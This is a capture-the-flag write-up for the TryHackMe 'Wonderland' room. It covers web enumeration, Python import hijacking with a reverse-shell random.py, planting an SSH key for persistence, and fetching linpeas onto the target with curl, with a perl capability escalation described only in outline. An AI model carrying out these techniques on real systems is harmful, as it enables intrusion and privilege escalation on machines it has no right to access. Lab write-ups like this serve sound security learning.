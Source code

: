 Writeup for the Wonderland CTF Room on: https://tryhackme.com/

First we start by adding the ip to our /etc/hosts file.
Then we start our enumeration.

### Enumeration

## Nmap

We can see an open HTTP and SSH port.

[![https://imgur.com/jitshko.png](https://imgur.com/jitshko.png)](https://imgur.com/jitshko.png)

## Manual

Lets visit the site manually:
We dont see much.

[![https://imgur.com/11z0aWO.png](https://imgur.com/11z0aWO.png)](https://imgur.com/11z0aWO.png)

## Gobuster

Lets see what gobuster can reveal.

[![https://imgur.com/wFIBJg9.png](https://imgur.com/wFIBJg9.png)](https://imgur.com/wFIBJg9.png)

After checking the endpoints they dont seem to make to much sense to me.

But the /r endpoint tells us to keep going.

[![https://imgur.com/tE3tIbB.png](https://imgur.com/tE3tIbB.png)](https://imgur.com/tE3tIbB.png)

So lets see if we get further with recursive search.

## Dirbuster

[![https://imgur.com/80N9DDR.png](https://imgur.com/80N9DDR.png)](https://imgur.com/80N9DDR.png)

This looks prommising lets check it out.

In the source code we find credentials ! 

[![]](https://media.giphy.com/media/PjplWH49v1FS0/giphy.gif)

### Privilege Escalation

After logging in with SSH we can see the root.txt and a python script both owned by root.

[![https://imgur.com/0Q8Eaqt.png](https://imgur.com/0Q8Eaqt.png)](https://imgur.com/0Q8Eaqt.png)

Since the root flag is in our home directory and the hint says everything is upside down i checked the /root directory and found the user flag.

We can see the other users on the machine:

[![https://imgur.com/i40U4qz.png](https://imgur.com/i40U4qz.png)](https://imgur.com/i40U4qz.png)

We are allowed to run the python script as the user rabbit without password.

[![https://imgur.com/1WhFACr.png](https://imgur.com/1WhFACr.png)](https://imgur.com/1WhFACr.png)

Lets take a closer look at the script:

The short version is:

import random

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)

Since there is no absolute path we can create our own random.py and it will be imported and executed here:

So create a file called random.py and paste the code for a python reverseshell inside.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

// Make sure to remove the python -c ' ' 

sudo -u rabbit /usr/bin/python3.6 walrus_and_the_carpenter.py

[![https://imgur.com/21Wo62w.png](https://imgur.com/21Wo62w.png)](https://imgur.com/21Wo62w.png)

And we are the rabbit ! :) 

In the homedirectory i created a pair of ssh keys:

mkdir .ssh
cd .ssh
touch authorized_keys
ssh-keygen
cat id_rsa.pub > authorized_keys

and then copied the id_rsa key to my hostmachine to loginto rabbit with that.

In the home directory of rabbit we have a TeaParty file.
When we cat it, we can see a lot of unreadable stuff but some lines are showing.

[![https://imgur.com/6BzJE3a.png](https://imgur.com/6BzJE3a.png)](https://imgur.com/6BzJE3a.png)


So the script uses date.

Lets repeat the process we had before with a bashscript to escalate.

[![https://imgur.com/3t3QSJj.png](https://imgur.com/3t3QSJj.png)](https://imgur.com/3t3QSJj.png)

[![https://imgur.com/uUxT0tg.png](https://imgur.com/uUxT0tg.png)](https://imgur.com/uUxT0tg.png)

We made it to hutter! 

[![https://imgur.com/UjpfCOj.png](https://imgur.com/UjpfCOj.png)](https://imgur.com/UjpfCOj.png)

We found his password.

[![https://imgur.com/t6uf2iB.png](https://imgur.com/t6uf2iB.png)](https://imgur.com/t6uf2iB.png)

Lets ssh in and proceed! 

At this point i will just run linpeas.
Download it from here on your Host: 

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

In the same directory set up a http server with python:

Python3 -m http.server 1337

On your target go in the /tmp directory:

curl http://yourip:ip/linpeas.sh


There is a interisting capability set on perl:

[![https://imgur.com/68H4nts.png](https://imgur.com/68H4nts.png)](https://imgur.com/68H4nts.png)

Alternativly we could have also found it like this:

[![https://imgur.com/khkwlxr.png](https://imgur.com/khkwlxr.png)](https://imgur.com/khkwlxr.png)

When we check on GTFOBins on perl capabilities:

[![https://imgur.com/L8aSgEu.png](https://imgur.com/L8aSgEu.png)](https://imgur.com/L8aSgEu.png)

I tried this didn't work.
we don't have permission to use perl. 

Lets find a way to bypass that!

When we look at the manpage of capabilities.

https://man7.org/linux/man-pages/man7/capabilities.7.html

We can see that we can use it to change the suid.

[![https://imgur.com/HdwcoFW.png](https://imgur.com/HdwcoFW.png)](https://imgur.com/HdwcoFW.png)

Looks like we can run perl as hatter

[![https://imgur.com/k8pJYiL.png](https://imgur.com/k8pJYiL.png)](https://imgur.com/k8pJYiL.png)

We can use the information we collected and execute the privilege escalation from GTFOBINS to get root.

[![https://imgur.com/FF1InnC.png](https://imgur.com/FF1InnC.png)](https://imgur.com/FF1InnC.png)


[![](https://media.giphy.com/media/RhiMxsXuFy9KU/giphy.gif)

Thank you for reading :) 

